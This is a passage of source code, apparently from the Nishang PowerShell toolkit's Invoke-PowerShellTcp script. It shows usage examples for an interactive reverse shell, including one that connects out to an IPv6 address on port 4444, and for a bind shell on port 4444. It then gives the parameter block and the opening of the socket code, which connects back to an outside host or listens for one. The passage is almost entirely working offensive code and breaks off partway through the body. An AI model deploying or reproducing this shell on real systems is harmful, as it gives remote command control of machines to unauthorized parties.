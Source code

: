 ```bash
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
```